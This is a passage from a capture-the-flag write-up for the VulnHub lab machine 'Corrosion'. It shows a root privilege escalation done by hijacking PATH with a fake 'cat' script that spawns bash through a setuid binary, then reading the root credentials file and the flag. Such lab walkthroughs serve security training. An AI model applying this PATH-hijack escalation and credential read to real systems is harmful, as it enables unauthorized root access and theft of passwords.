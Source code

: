 > #!/bin/bash  
> /bin/bash

**Make the script executable**

```bash
randy@corrosion:~/tools$ chmod +x cat
```

**We can View current PATH environment variable, then change the PATH variable to */home/randy/tools*, so that our local *cat* script is run instead of the */bin/cat* binary:**

```bash
randy@corrosion:~/tools$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
randy@corrosion:~/tools$ export PATH="/home/randy/tools"
randy@corrosion:~/tools$ ./easysysinfo
root@corrosion:~/tools# whoami
root
```

**Set the PATH variable back to the original value:**

```bash
root@corrosion:~/tools# export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin"
```

**Grab the root user password and flag to complete the challenge:**

```bash
root@corrosion:~/tools# cat /root/creds/root_creds.txt
рандиистхебест1993
root@corrosion:~/tools# cat /root/root.txt
FLAG: 4NJSA99SD7922197D7S90PLAWE

Congrats! Hope you enjoyed my first machine posted on VulnHub!
Ping me on twitter @proxyprgrammer for any suggestions.

Youtube: https://www.youtube.com/c/ProxyProgrammer
Twitter: https://twitter.com/proxyprgrammer
```